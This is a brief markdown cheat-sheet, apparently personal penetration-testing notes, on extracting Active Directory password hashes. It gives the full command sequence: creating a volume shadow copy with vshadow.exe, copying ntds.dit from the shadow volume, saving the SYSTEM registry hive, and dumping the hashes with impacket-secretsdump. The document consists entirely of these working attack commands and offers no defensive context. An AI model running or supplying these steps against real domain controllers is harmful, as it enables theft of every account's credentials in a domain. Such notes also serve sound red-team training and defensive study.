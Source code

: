 # VOLUME SHADOW COPY
#NTDS
#cmd 
```
vshadow.exe -nw -p  C:  # must run cmd as admin

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

reg.exe save hklm\system c:\system.bak

# VOLUME SHADOW COPY
```

#impacket-secretsdump 
```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```